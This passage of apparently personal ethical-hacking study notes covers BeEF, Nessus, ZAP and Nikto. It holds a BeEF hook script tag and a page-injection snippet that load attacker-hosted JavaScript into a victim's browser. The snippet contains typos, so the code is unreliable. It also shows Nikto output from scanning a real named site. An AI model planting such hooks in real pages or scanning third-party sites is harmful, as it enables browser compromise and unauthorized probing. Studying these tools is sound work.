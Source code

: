                     <script src="htts://beef.local:3000/hook.js"></script>

                or

                    (Need to be tested!)

                    https://hackingvision.com/2018/12/15/cloning-websites-beef-xss/

                <script>
                var commandModuleStr = ‘<script src”‘ + window.location.protocol
                                                      + ‘//‘ + windows.location.host
                                                      + ‘<%= @hook_uri %>” type=“text/javascript”><\/script>’;
                document.write(commandModuleStr);
                </script>

                # You can integrate metasploit with beef. Probably you will want to do it:

                    https://www.youtube.com/watch?v=4t4kBkMsDbQ
            # Nessus

                https://kali:8834/#/scans/folders/my-scans

            # Zap Proxy

                Es como Burp Suite, pero con más recursos, un interceptor proxy, busca vulnerabilidades de manera activa o pasiva.
                Very intrusive! generates a lot of http traffic.

                > sudo apt install zaproxy
                ...
                https://www.udemy.com/course/curso-profesional-de-hacking-etico-y-ciberseguridad/learn/lecture/30766090#overview
                https://www.zaproxy.org/addons/
                https://snifer.gitbooks.io/owasp-zed-attack-proxy-guide/content/

            # Nikto

            > nikto  -h https://cncintel.com/\?fbclid\=IwAR3stjMT-yIM-yJ1RI4mU2X0ZmaSeMU6A1morNu-lE8ST9iNYJ0gYcj32a4 -o output-cncintel.htlml -Format html
            - Nikto v2.1.6
            ---------------------------------------------------------------------------
            + Target IP:          172.66.42.210
            + Target Hostname:    cncintel.com
            + Target Port:        443
            ---------------------------------------------------------------------------
            + SSL Info:        Subject:  /C=US/ST=California/L=San Francisco/O=Cloudflare, Inc./CN=sni.cloudflaressl.com
                               Ciphers:  TLS_AES_256_GCM_SHA384
                               Issuer:   /C=US/O=Cloudflare, Inc./CN=Cloudflare Inc ECC CA-3
            + Message:            Multiple IP addresses found: 172.66.42.210, 172.66.41.46
            + Start Time:         2022-08-30 17:37:29 (GMT2)
            ---------------------------------------------------------------------------
            + Server: cloudflare
            + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
            + The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
            + Expect-CT is not enforced, upon receiving an invalid Certificate Transparency Log, the connection will not be dropped.
            + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
            + All CGI directories 'found', use '-C none' to test none